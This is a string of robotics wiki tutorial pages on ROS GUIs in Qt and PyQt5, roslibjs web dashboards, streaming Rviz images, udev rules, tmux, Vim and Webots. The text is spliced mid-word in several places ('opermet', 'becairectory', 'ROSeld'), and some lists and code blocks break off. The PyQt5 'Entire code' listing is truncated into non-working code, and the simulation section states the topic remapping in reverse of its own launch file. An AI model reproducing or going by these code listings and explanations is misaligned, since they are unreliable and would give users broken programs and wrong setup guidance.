          loop_rate.sleep();
      }
      ```

4. Create a class for publisher

   1. It will have a pointer to a nodehandle (`ros::NodeHandle`) as a member, and the address of the nodehandle object will be passed to this member variable in the constructor
   2. It will have a slot function that runs the `publish()` function

5. Edit the `MainWindow` class, this is where most of the action happens

   1. Create a `ros:NodeHandle`, a pointer that handles the subscriber/publisher class that you made, and `QThread` objects for each of your subscriber/publisher class

      ```C++
      private:
        Ui::MainWindow *ui;
        ros::NodeHandle nh_;
        SubscriberNode *p_subscriber_node_;
        PublisherNode *p_publisher_node_;

        QThread p_subcriber_node_thread_;
        QThread p_publisher_node_thread_;
      ```

   2. Create slots for your GUI elements by right clicking on them in the edit window --> `Go to slot...`, this will create a member function

      ```C++
      private slots:
        void on_Button_clicked();
      ```

   3. Create slots to receive messages from your subscriber class as a member function, add the data type as the function parameter (e.g. float, int, bool)

      ```C++
      private slots:
        void slot_msgFb(float);
      ```

   4. Create signals to send messages to your publisher class as a member function, add the data type as the function parameter (e.g. float, int, bool)

      ```C++
      signals:
        void sigSignal(float);
      ```

   5. Use the `connect` function to connect slots and signals together in the class constructor

      ```C++
      connect(this, SIGNAL(sigSignal(float)), p_publisher_node_, SLOT(slotSignal(float)));
      ```

   6. Move the subscriber and publisher class to the `QThread` that you made

      ```C++
      publisher_class_ptr->moveToThread(&publisher_class_thread);
      publisher_class_thread.start();
      ```

   7. Call `emit` signals and write your logic in `slot` functions accordingly

      ```C++
      emit sigSignal(5.0)
      ```

## Summary
Qt is a tool to create custom GUI that can integrate with ROS directly. It is slightly complicated to learn and use, but it provides a very tight integration.


/wiki/tools/ros-gui/
---
# Jekyll 'Front Matter' goes here. Most are set by default, and should NOT be
# overwritten except in special circumstances. 
# You should set the date the article was last updated like this:
date: 2023-05-02 # YYYY-MM-DD
# This will be displayed at the bottom of the article
# You should set the article's title:
title: Framework GUI for robotic system using ROS
# The 'title' is automatically displayed at the top of the page
# and used in other parts of the site.
## Requirements

- This application assumes your workspace has ROS installed. If not, use [this link](http://wiki.ros.org/ROS/Installation) for installing ROS.

- This application can be used on any Operating System including Linux, Windows and Mac. 

- This application can be used with ROS1 and ROS2.


### Installation

To use PyQt5, open a terminal and type the following command

```bash
$ pip install PyQt5
```

## Overview of Final Application

This is the final application you can get by following this tutorial. Blocks that require customization will be explained in the documentation.



## Application Walkthrough

### Timers 

The application has two timers 

1. System level timer: allows you to keep track of your entire system's operation time.

2. Task level timer: allows you to keep track of a specific task's operation time. 

### System Level Timer

The system level timer captures the time taken between the start and the end of your system. This can be done by pressing the 'Start System Timer' button. Clicking it once begins the timer and clicking it again stops the timer. The color of the timer will change based on the ` color_change_times ` and ` color_change_colors` defined in the full code at the bottom of this tutorial. This can be modified to suit your system's requirements. 

The color change for the timers are as follows:

Green Button

Yellow Button

Orange Button

Red Button


The code block for this is given here:
```python
def SystemTimerBlock(self):
    self.system_count = 0
    self.system_start = False
    self.system_end = False

    self.system_timer_button = QPushButton("Start System Timer", self)
    self.system_timer_button.setFixedSize(self.win.frameGeometry().width(),self.win.frameGeometry().height()//4)
    self.grid.addWidget(self.system_timer_button, 0, 2)
    self.system_timer_button.clicked.connect(self.system_timer_controller)

    system_timer = QTimer(self)
    system_timer.timeout.connect(self.system_timer)
    system_timer.start(1000) # modify to match system needs
```

### Task Level Timer

The task level timer captures the time taken between the start and the end of one task. This can be done by pressing the 'Start Task Timer' button. This button also changes color when the time taken to perform a task is reaching the total allowed time. 

One additional feature of the task level timer is it saves the task logs. These are outputted in the `Task Times` block that is directly below the button.



```
def TaskTimerBlock(self):
        self.task_times = {}
        self.task_count = 0
        self.task_start = False
        self.task_end = False

        self.task_timer_button = QPushButton("Start Task Timer", self)
        self.task_timer_button.setFixedSize(self.win.frameGeometry().width(),self.win.frameGeometry().height()//4)
        self.grid.addWidget(self.task_timer_button, 1, 2)
        self.task_timer_button.clicked.connect(self.task_timer_controller)

        task_timer = QTimer(self)
        task_timer.timeout.connect(self.task_timer)
        task_timer.start(1000) # modify to match system needs

        self.task_times_label = QLabel("Task Times", self)
        self.grid.addWidget(self.task_times_label, 2, 2, 2, 1)
        self.task_times_label.setStyleSheet("border : 3px solid black")
        self.task_times_label.setFont(QFont('Times', 10))
        self.task_times_label.setAlignment(Qt.AlignCenter)
```

### E-Stop Button 

The E-Stop button is a ROS publisher that will publish to a topic which can then be used by your system's code to stop the robot. 

You need to change the following code
```
self.estop_pub = rospy.Publisher('/mrsd/estop', Bool, queue_size=10)
### System Status

The system status block subscribes to the following topic.
```
self.status_sub = rospy.Subscriber('/mrsd/status', String, self.status_callback)
```
Thus your main system should publish to a `/mrsd/status` topic. Ideally, your state machine will have a topic publisher that this application can subscribe to. 

### System Log

This block is left for you to customize and display any other useful information. It subscribes to

```
self.system_log_sub = rospy.Subscriber('/mrsd/system_log', String, self.system_log_callback)
```

and you need to add some code to format the output. For example, this section could be used to display some of these information

1. How many peppers you have harvested
2. How many people you have saved
3. What process are up next


### Visualization Block

The visualization block can be used to display any results visually. Use cases can be 

1. Robot localization within the map
2. 3D point clouds
3. Object detection results

### Entire code
<details>
  <summary>pyqt-ros.py</summary>
    
  ```
  # importing libraries
from PyQt5.QtWidgets import *
from PyQt5.QtGui import *
from PyQt5.QtCore import *
import sys, emoji, rospy
from PyQt5.QtGui import QPixmap

# system level requirements
total_demo_time = 60*20 # assuming SVD is 20 minutes
one_task_max = 60 # assuming each task is 60 seconds
color_change_times = [0.25, 0.5, 0.75, 1.0]
color_change_colors = ['green', 'yellow', 'orange', 'red']

gui_x, gui_y = 700, 600

class Window(QMainWindow):
    def __init__(self):
        super().__init__()
        self.setWindowTitle("Python ")
        self.win = QWidget()
        self.grid = QGridLayout()

        self.UiComponents()
        self.win.setLayout(self.grid)
        self.win.setGeometry(0, 0, gui_x, gui_y)
        self.win.show()


        # self.status_sub = rospy.Subscriber('/mrsd
window = Window()
sys.exit(App.exec())
  ```
    
</details>


## Summary
This article provides a walkthrough of basic code that uses PyQt5 for development of a GUI that is integrated with ROS. It highlights parts that need to be modified in your system level ROS code as well as suggests possible modifications. 

## See Also:
- [PyQt5 Official Documentation](https://doc.qt.io/qtforpython-5/)

## Further Reading
- [PyQt5 Official Documentation](https://doc.qt.io/qtforpython-5/)


/wiki/tools/rosbags-matlab/
---
date: 2017-08-15
title: Rosbags In MATLAB
---
Sometimes you would rather analyze a rosbag in MATLAB rather than within the ROS environment. This page describes how to set up the Matlab infrastructure and includes a script example.

The following steps provide the parsing setup:
1. Type roboticsAddons and install the [Robotics Syst
Basic rosbag parsing is as follows:
1. Run `rosbag(filepath)` on the [rosbag](https://www.mathworks.com/help/robotics/ref/rosbag.html) file of interest
2. [Select](](https://www.mathworks.com/help/robotics/ref/select.html)) only the topic of interest with `select(bag,'Topic','<topic name>')`
3. For straightforward values in a message, run `timeseries(bag_select,'<message element>')`
4. For more complicated messages, run `readMessages`

[This script](assets/parseRosbag.m) parses Rosbags and creates a `.mat` and `.csv` file from it given a custom definition. The particular message referenced is an aggregation of multiple messages, hence the recursive structure.


/wiki/tools/roslibjs/
---
date: 2020-02-03
title: Web-Based Visualization using ROS JavaScript Library
---

This tutorial will give you an introduction to the ROS JavaScript Library (`roslibjs`) and how you can use it in your own projects to interface with web-based platforms or GUIs.

There exists a suite of ROS JavaScript libraries developed by [https://robotwebtools.org/](https://robotwebtools.org/) such as `roslibjs`, `ros2djs`, and `ros3djs`. The `roslibjs` library is the core JavaScript library for interacting with ROS from the browser. It uses web sockets to connect with `rosbridge` and provides publishing, subscribing, service calls, `actionlib`, TF, URDF parsing, and other essential ROS functionality. The `ros2djs` and `ros3djs` are libraries built upon these to support more advanced HTML3 based plug ins to visualize occupancy grids, URDF models, all of the standard ROS visualization markers, point clouds, and many more types of messages.

The scope of this tutorial is only to introduce you to the `roslibjs` library as the procedure and general work-flow remains the same for the other libraries as well.

## Setting Up ROS Bridge Server
First, we need a way to convert ROS messages to a format that can be used in web applications. To do this, we will use the `rosbridge_suite` package. Rosbridge provides a JSON API to ROS functionality for non-ROS programs. There are a variety of front ends that interface with rosbridge, including a WebSocket server for web browsers to interact with. To setup rosbridge, run the following commands.

```
sudo apt-get install ros-kinetic-rosbridge-server
```

Now, you can just start the rosbridge server, which will automatically make all the existing topics available to your web application.

```
roslaunch rosbridge_server rosbridge_websocket.launch
```

You can also add it into your launch file and customize the port number.

```
<launch>
  <include file="$(find rosbridge_server)/launch/rosbridge_websocket.launch" > 
     <arg name="port" value="9090"/>
  </include>
</launch>
```

## Setting up your Web Application

It is very simple to develop and setup a web application on your local machine. All you need to do is create folder for your application and create file within it name `index.html` which will have all the functionality for application. Additionally you can create multiple folder for your libraries and assets to organize your web app. 

To test your web app, simply open the file `index.html` in your web browser. Note that, there are some functionality that might not work when you directly open the HTML file, one may need to start a HTTP server to make that work. In order to that just use Python's in-built HTTP server.

```
cd your/web/app/folder
python3 -m http.server 8000
```

Navigate to `127.0.0.1:8000` in your browser to open your web application.

## Basic ROS JavaScript Interface

Once you the setup ready, we can now go ahead developing your application. A website basically consists of three main components, the structure defined by HTML, the functionality implemented by JavaScript (in our case), and the style or the looks of your website defined by CSS. The tutorial assumes that you already have the HTML/CSS part developed for application or you can get a free dashboard template online of your choice. 

Let us now move on to interfacing your web app with ROS JavaScript in `index.html`.

1. First, we need to connect to our ROS bridge server setup earlier with the same port number.

```
var ros = new ROSLIB.Ros({
    url : 'ws://localhost:9090'
  });

  ros.on('connection', function() {
    console.log('Connected to websocket server.');
  });

  ros.on('error', function(error) {
    console.log('Error connecting to websocket server: ', error);
  });

  ros.on('close', function() {
    console.log('Connection to websocket server closed.');
  });
```

2. Now, we can subscribe to any topic and the library will help us parse us the message and raise a callback for us.

```
var listener = new ROSLIB.Topic({
    ros : ros,
    name : '/listener',
    messageType : 'std_msgs/String'
  });

listener.subscribe(function(message) {
    console.log('Received message on ' + listener.name + ': ' + message.data);
    listener.unsubscribe();
  });
```

You can view the message data on your web console. You can access all your ROS message fields from the `message` object including the header and timestamps of the messages like `message.header.stamp`.

3. That's it! You have developed your first basic Hello World application. Your entire `index.html` would look something like this and your HTML layouts would go inside the `body` tag.

```
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8" />

<script type="text/javascript" src="http://static.robotwebtools.org/EventEmitter2/current/eventemitter2.min.js"></script>
<script type="text/javascript" src="http://static.robotwebtools.org/roslibjs/current/roslib.min.js"></script>

<script type="text/javascript" type="text/javascript">
  // Connecting to ROS
  var ros = new ROSLIB.Ros({
    url : 'ws://localhost:9090'
  });

  ros.on('connection', function() {
    console.log('Connected to websocket server.');
  });

  ros.on('error', function(error) {
    console.log('Error connecting to websocket server: ', error);
  });

  ros.on('close', function() {
    console.log('Connection to websocket server closed.');
  });

  // Subscribing to a Topic
  var listener = new ROSLIB.Topic({
    ros : ros,
    name : '/listener',
    messageType : 'std_msgs/String'
  });

  listener.subscribe(function(message) {
    console.log('Received message on ' + listener.name + ': ' + message.data);
    listener.unsubscribe();
  });
</script>
</head>

<body>
  <h1>Simple roslib Example</h1>
  <p>Check your Web Console for output.</p>
</body>
</html>
```

## Some More ROS JavaScript Interface for Developing GUIs

You can do more advanced stuff such as subscribing to images, Rviz visualizations (see [this tutorial for more information](https://roboticsknowledgebase.com/wiki/tools/stream-rviz)), and monitor diagnostics from your nodes.

To visualize and update an image stream live within your web app, first you need a placeholder in HTML for your image. Define it as follows within the `body` tag with an unique ID to update it later via JavaScript.

```

```

Now, you can create a topic handler and subscribe to your image from ROS. Note that, if you want to integrate image streams with `roslibjs`, the ROS socket bridge expects images in compressed format. See this section [here](https://roboticsknowledgebase.com/wiki/tools/stream-rviz/compressing-image-streams) for more details on setting up image compression for your topics.

```
var image_topic = new ROSLIB.Topic({
  ros: ros, name: '/stream1/image/compressed',
  messageType: 'sensor_msgs/CompressedImage'
});
```

Now, all you need to do is update the `src` field of your image with the data received from your ROS topic.

```
image_topic.subscribe(function(message) {
  document.getElementById('my_image').src = "data:image/jpg;base64," + message.data;
  image_topic.unsubscribe();
});
```epository [here](https://github.com/deltaautonomy/delta_viz/blob/master/delta_viz_app/index.html).


## See Also
- A [tutorial](https://roboticsknowledgebase.com/wiki/tools/stream-rviz) on setting up virtual cameras and lighting in Rviz and stream these images which can be used in your GUI or for other applications within ROS.

## Further Reading
- There is a lot more you can do with `roslibjs`. Check out the official wiki [here](http://wiki.ros.org/roslibjs/Tutorials/BasicRosFunctionality) for more advanced tutorials.
- Refer to the [`delta_viz`](https://github.com/deltaautonomy/delta_viz) repository developed by Delta Autonomy, which is a web-based dashboard GUI that implements all of what's covered in this tutorial.

## References
- http://wiki.ros.org/roslibjs/Tutorials/BasicRosFunctionality


/wiki/tools/solidworks/
---
date: 2017-08-15
title: Getting started with Solidworks
---

[SolidWorks](https://www.solidworks.com/) is a 3D Computer Aided Design program commonly used for mechanical design. The following guide introduces a tutorial series from SolidWorks, in addition to offering some basic tips for setting up your environment.

## Tutorial Series
[This tutorial series](https://www.solidworks.com/sw/resources/solidworks-tutorials.htm) guides through the steps of making a simple part to an assembly and finally a drawing. Simulation and sustainability are advanced topics which are not needed for designing basic parts or mounts, not designed for heavy load bearing.

## General Guidelines:
A basic knowledge of Solidworks is needed to understand 
5) Use symmetry about part origin when possible.

6) Use a rational order of operations, especially if other people may be using your parts. Reasons for transgressing this rule would be to accomplish a workaround that because of a bug or limitation cannot be done a better way.

7) Use of sketch relations rather than explicit dimensions (for example to center a hole on a block, use a midpoint relation to a diagonal) when the "design intent" allows.

8) Fully defined sketches behave better than under defined, and defined using relations which are relative to existing geometry are better than explicit dimensions, especially when changes are expected.


15) To find out what mates, dependencies, etc. that are associated with your features right click on the top level assembly and click on view dependencies in the menu. This will then organize all of your mates and other dependencies under which feature it is associated with.

16) When something in a drawing or part will not rebuild, even after making changes, press CTRL-Q at the same time to force SolidWorks to rebuild everything in the model or drawing.

17) Create and analyse the drawing of the assembly, with sectional views and all dimensions, before 3D printing or laser cutting anything.


/wiki/tools/stream-rviz/
---
date: 2020-02-03
title: Stream Rviz Visualizations as Images
---

This tutorial will help you stream live Rviz visualizations as `Image` topics in ROS. The tutorial will cover how one can setup multiple virtual cameras and virtual lighting within the Rviz environment. Streaming Rviz visualizations has several applications such as, one can record multiple views simultaneously for off-line analysis or these image streams can be incorporated into Python or web-based GUIs.

## Contents
1. [Setting up Virtual Cameras in Rviz](https://roboticskn

First, we begin with setting up virtual cameras in Rviz. As per convention, for any given camera frame, the positive Z-axis points in the direction of camera view.

1. Download the Rviz camera stream plug-in ROS package into the `src` directory of your workspace.

```
mkdir -p catkin_ws/src
cd catkin_ws/src
git clone https://github.com/lucasw/rviz_camera_stream
cd ..
catkin_make
```

2. Now, we first need to setup a camera with its extrinsics and intrinsics properties. We can use `static_transform_publisher` to setup the camera extrinsics with respect to some world frame (`map` here) and publish a the `camera_info` topic which will have the intrinsic properties of the camera along with the width and the height of the image we want to publish. Refer to the documentation of `camera_info` message [here](http://docs.ros.org/melodic/api/sensor_msgs/html/msg/CameraInfo.html) for more details on setting up the parameters. The following example is for a camera with image size `640x480` with focal length `500.0`, principal point at `(320, 240)`, equal aspect ration, and rectified image without distortions.
  <node pkg="tf" type="static_transform_publisher" name="camera_broadcaster"
      args="-15 0 15 1.57 3.14 1.1 map camera1 10" />
  <node name="camera_info" pkg="rostopic" type="rostopic"
      args="pub camera_info sensor_msgs/CameraInfo
     '{header: {seq: 0, stamp: {secs: 0, nsecs: 0}, frame_id: 'camera1'},
      height: 480, width: 640, distortion_model: 'plumb_bob',
      D: [0],
      K: [500.0, 0.0, 320, 0.0, 500.0, 240.0, 0.0, 0.0, 1.0],
      R: [1.0, 0.0, 0.0, 0.0, 1.0, 0.0, 0.0, 0.0, 1.0],
      P: [500.0, 0.0, 320, 0.0, 0.0, 500, 240, 0.0, 0.0, 0.0, 1.0, 0.0],
      binning_x: 0, binning_y: 0,
      roi: {x_offset: 0, y_offset: 0, height: 480, width: 640, do_rectify: false}}' -r 2"
      output="screen"/>
</group>
```

To add multiple cameras, just replicate the code above (the `group` block), replacing the camera name everytime.

3. Next, open up Rviz by running `rviz` is your terminal and click on `Add` to add a new display type. Select the `CameraPub` plug-in from the list. Now in the display tab, under the plug-in properties, select the camera name (`camera1` in our case) and enter a new topic name for the image to be published.

4. That's it! Now you can use `image_view` node or add a new `Image` in Rviz itself to visualize the image stream. 

```
rosrun image_view image_view image:=/your/topic/name
```

It might be tricky to setup the extrinsics of the camera and position it properly at first. I would first recommend to comment out the `static_transform_publisher` block in your launch file and manually set up the transform on the fly to position the camera. The `tf_publisher_gui` node from `uos_tools` package come in handy.

Launch the TF publisher GUI as follows.

```
rosrun tf_publisher_gui tf_publisher_gui _parent_frame:=/map _child_frame:=/camera1
```

This should open a GUI with sliders which help you set the translation and rotations for you camera. Once you are satisfied with the setup, plug these values back into your original launch file and publish the static transform.

## Setting up Virtual Lighting in Rviz

By default, Rviz has a single spot light focused on whatever the user is currently viewing in the Rviz GUI. For example if you are viewing a robot model from the front view, the URDF mesh would be well light. However, if we want to simultaneously view the same robot model from the top or the side view, the URDF mesh would have shadows on it and will not be well lit. This is important in our case, becairectory of your workspace.

```
cd catkin_ws/src
git clone https://github.com/mogumbo/rviz_lighting
cd ..
catkin_make
```

1. To setup this up in Rviz, follow the similar step as earlier to add a new display type in Rviz by selecting `AmbientLight`. For our purpose, we will just use the `Directional` light and set the frame the same as on of our camera frames (`camera1`) under the properties of the plug-in.

## Compressing Image Streams
d make streaming more efficient. This is an optional step and usually this maybe beneficial only if you have multiple camera publishers from Rviz.

If you want to integrate these image stream with `roslibjs`, the ROS socket bridge expects images in compressed format and this step would be mandatory (refer [See Also](https://roboticsknowledgebase.com/wiki/tools/stream-rviz/see-also)).

To compress images, just add the following block into your launch file.

```
<node
    pkg="image_transport"
    type="republish"
    name="republish_image"
    output="screen"
    args="raw in:=/camera1/image
          compressed out:=/camera1/compressed/image">
</node>
```

You can now subscribed to the compressed image topic in your ROS nodes. Note that the message type will now be [`sensor_msgs/CompressedImage`](http://docs.ros.org/melodic/api/sensor_msgs/html/msg/CompressedImage.html).

## See Also
- A [tutorial](https://roboticsknowledgebase.com/wiki/tools/roslibjs) on ROS JavaScript library used to develop web-based GUIs which integrates image streams from Rviz.

## Further Reading
- Refer to the [`delta_viz`](https://github.com/deltaautonomy/delta_viz) repository developed by Delta Autonomy, which is a web-based dashboard GUI that implements all of what's covered in this tutorial.

## References
- https://github.com/lucasw/rviz_camera_stream
- https://github.com/mogumbo/rviz_lighting
- http://docs.ros.org/melodic/api/sensor_msgs/html/msg/CameraInfo.html
- http://docs.ros.org/melodic/api/sensor_msgs/html/msg/CompressedImage.html
- https://github.com/deltaautonomy/delta_viz


/wiki/tools/tmux/
---
date: 2017-08-15
title: TMUX
---
TMUX is a useful tool to open multiple tabs in the terminal especially while using SSH.
[This video](https://www.youtube.com/watch?v=BHhA_ZKjyxo) give a nice over view to use TMUX.

# TMUX Options Reference
Once you are familair with using TMUX. The following summary of the shortcuts will be useful:
Now a Ctrl-b options reference:
- Basics
  - ? get help
- Session management
  - s list sessions
  - $ rename the current session
  - d detach from the current session
- Windows
  - c create a new window
  - , rename the current window
  - w list windows
  - % split horizontally
  - " split vertically
  - n change to the next window
  - p change to the previous window
  - 0 to 9 select windows 0 through 9
- Panes
  - % create a horizontal pane
  - " create a vertical pane
  - h move to the left pane. *
  - j move to the pane below *
  - l move to the right pane *
  - k move to the pane above *
  - k move to the pane above *
  - q show pane numbers
  - o toggle between panes
  - } swap with next pane
  - { swap with previous pane
  - ! break the pane out of the window
  - x kill the current pane
- Miscellaneous
  - t show the time in current pane

# Resources
Here are some further resources that may be useful:
  1. http://www.sitepoint.com/tmux-a-simple-start/
  - https://robots.thoughtbot.com/a-tmux-crash-course
  - https://danielmiessler.com/study/tmux/


/wiki/tools/udev-rules/
---
date: 2017-08-15
title: udev Rules
---

[udev](https://en.wikipedia.org/wiki/Udev) is the system on Linux opermet they are on separate lines.

## Arduino
With Arduinos, the process is fairly simple:

1. Determine the device's automatic serial port assignment. This can be done by doing the following:
  - Leave the Arduino unplugged.
  - Run `ls /dev` from the command line
  - Plug in the Arduino.
  - Run `ls /dev` from the command line and see which new item appeared. It will probably have a name like `ttyACM*`.
2. Find the device's USB parameters using the device name from the prior step:
    ```
    udevadm info -a -n /dev/ttyACM*
    ```
3. Create a file in `/etc/udev/rules.d` called `99-usb-serial.rules`
Enter the following in the file, replacing the parameters with those found in the prior step:
```
SUBSYSTEM=="tty", ATTRS{idVendor}=="2341", ATTRS{idProduct}=="0042", ATTRS{serial}=="85334343638351804042", SYMLINK+="arduino"
```
4. Unplug and reconnect the Arduino. It should now show up as a link in the `/dev` folder called `arduino`. You can check this with `ls -l /dev`

## Other Devices
With devices other than Arduino, you may need to use different parameters to identify the device, or you may need to perform an extra step to get the device's serial ID. Generally, you will have to figure this out on a device-by-device basis. For instance, the udev rule for a Hokuyo looks like this:
```
ATTRS{manufacturer}=="Hokuyo Data Flex for USB", ATTRS{idVendor}=="15d1", MODE="0666", GROUP="dialout", PROGRAM="/opt/ros/indigo/env.sh rosrun hokuyo_node getID %N q", SYMLINK+="sensors/hokuyo_%c"
```
The Hokuyo requires a special program (`getID`) to get the serial ID. It can be downloaded as part of the `hokuyo_node` ROS package.


/wiki/tools/vim/
---
date: 2017-08-15
title: Vim text editor
---
Vim text editor greatly helps speed-up your programming workflow. It has a fairly big learning curve but the shortcuts and macro functions can easily double your productivity. Vim is also modular, enabling you to easily customize it.
## Resources
Links to help you get started:
1. Vim Cheat Sheet: http://www.viemu.com/a_vi_vim_graphical_cheat_sheet_tutorial.html
- Online interactive tutorial: http://www.openvim.com/
- Screencasts which are useful for improving your programming workflow: http://vimcasts.org/episodes/
- A detailed step-by-step tutorial into the Vim world: http://www.swaroopch.com/notes/vim/
- A list of the most popular Vim plugins: http://vimawesome.com/


/wiki/tools/visualization-simulation/
---
date: 2019-11-12
# Jekyll 'Front Matter' goes here. Most are set by default, and should NOT be
# overwritten except in special circumstances. You should set the article's title:
title: Making Field Testing Easier Through Visualization and Simulation
# The 'title' is automatically displayed at the top of the page
# and used in other parts of the site.
---
If you have an outdoor system, field testing is going to make or break your validation demonstration. No amount of testing in the lab will expose as many issues with your system as 10 minutes of testing outside. Picking up your system and taking it somewhere else is difficult but you have to do it. Therefore, you want to make your time field testing as effective as possible and as painless as possible. You can 
## Visualization
If you are using ROS, one of your first steps should be to set up an RVIZ configuration specific to your project. Your project is going to require a unique configuration to properly visualize it depending on your specific project details. So th
```
The code snippet above is launching an rviz node, from the rviz package. It then passes an argument which includes the absolute path to the file `my_project.rviz`, contained in the `params` directory of the ROS package `my_project`. For this to run properly, the package `my_project` needs to built on your computer, and the `devel/setup.bash` needs to have been sourced in your terminal.

## Simulation
Now that you have configured a visualizer for improved debugging, we will discuss some simple steps you can use to set up a simulator and how to use it to make your life easier. You will need to pick a simulator that matches the needs of your project and unfortunately, we will not be covering that level of simulator discussion this wiki entry. First I want to emphasize why it is important to simulate. As mentio
<launch>
  <arg name="sim" default="false" /> 
  <node pkg="robot_localization" type="navsat_transform_node" name="navsat_transform" clear_params="true">
    <remap from="gps/fix" to="rtk_gps" unless="$(arg sim)"/>
    <remap from="gps/fix" to="/navsat/fix" if="$(arg sim)"/>
  </node>
</launch>
```
The above code represents a launch file, with parameter `sim` whose default file is false. You can set its value when launching on the command line by appending the option `sim:=true`. The node being launched from the `robot_localization` package which is also a good resource. Finally, we are remapping the topic `gps/fix`, if `sim` is set to false, the topic will be set remapped to `/navsat/fix` and if `sim` is set to true it will be remapped to `rtk_gps`

## Conclusion
Using these simple tools can save you hours during the course of your project. Just remember, these are not a substitution for field testing; they are tools to make field testing more efficient.

## Further Reading
- Robot Localization <https://wiki.ros.org/robot_localization>


/wiki/tools/webots/
---
date: 2019-12-17
# Jekyll 'Front Matter' goes here. Most are set by default, and should NOT be
# overwritten except in special circumstances. You should set the article's title:
title: Webots
# The 'title' is automatically displayed at the top of the page
# and used in other parts of the site.
---
[Webots](https://cyberbotics.com/) is a free open source robot simulator used for a variety of purposes and applications. It was previously a paid software developed by Cyberbotics and became open source in December 2018. It is still being developed by Cyberbotics with association from Industry and Academia. It is compatible with ROS 1 and ROS 2 and runs on Linux, Windows and macOS.

## Installation
Webots works out of the box by downloading the right version at this [link](https://cyberbotics.com/download).
### Ubuntu
- Extract the downloaded file to a location of your prefernce.
- Go to that location in your Linux terminal.
- \[Optional: If using ROS with Webots\] Source devel for your catkin workspace `source \path\to\catkin_ws\devel.bash`
- Run the following commands:
  ```
  cd webots
  ./webots
  ```

## ROS Integration
Here are the two ways you can add ROS integration to webots

1. Standard ROS Controller
    - Webots comes with inbuilt ROS controller which generates ROS topic out of the box based on the elements(robots, sensors, etc) added in the environment. For example, if the stereo sensor is added to the robot and controller selected is “ROSeld in robot node to ROS.
    - Some of the examples code can be found at [link] (https://github.com/cyberbotics/webots/tree/master/projects/languages/ros/webots_ros)

2. Custom ROS Controller
    - While using standard ROS controller has plug and play benefits, to gain total control over the data that is published from the webots, using custom ROS controller is preferable
    - Custom ROS controller can be written in both cpp and python.
    - Simply change the controller to `your_controller.py` and `import rospy in <your_controller.py>` and all the rospy commands should work as-is.
    - Make sure you start the webots instance after sourcing the ROS workspace otherwise rospy and other ROS messages won’t be accessible inside webots.
    - All the information regarding elements in the simulation are accessible through custom function which can be further converted to ROS topics and published accordingly

For more information on using ros, you can refer to [link](https://cyberbotics.com/doc/guide/using-ros)
For a sample ROS integration, refer [link](https://cyberbotics.com/doc/guide/tutorial-8-using-ros)


## Controllers
### Robot Controller
- The Robot Controller is the primary controller used to control all the things related to the robot. To start using ros controller you need to import the following library
  ```irectionalLight`. In a while loop, set the vector in the field `direction` to the appropriate values.

You can also manipulate other fields of the light such as `intensity`, `color`, `ambientIntensity` and `castShadows`.

## Surface Map
You can add surface for the robot environment from CSV as follows
Webots provides elevation grid field inside SOLID which can be used to define the heightmap
  - If you are planning to use `w x h` surface map, set xDimension to w and ngly in the other parts of the code.

## Sensors
### Multisense S21 (Depth camera)
- Webots provides Multisense S21 as depth camera which can be added to the extension slot in robots. Multisense S21 is actually made of left/right camera and range finder to replicate the depth camera. Here are the steps to add the sensors
  - Go to extension slot in the robot node

### Position sensors (Encoders)
Webots provides Position sensors which can be used both for rotational and translational motion. One of the best use of position sensor is to use it as encoders with motor. Here are the steps to add Position sensors
- Go to motor node inside `<your_robot>.proto` file and add followings lines inside your devices section
  ```
  PositionSensor {
    name "<custom_name>"
  }

## Summary
This tutorial gives you a brief idea of how to get started with webots and be able to control the basic and some intermediate features for your simulation.
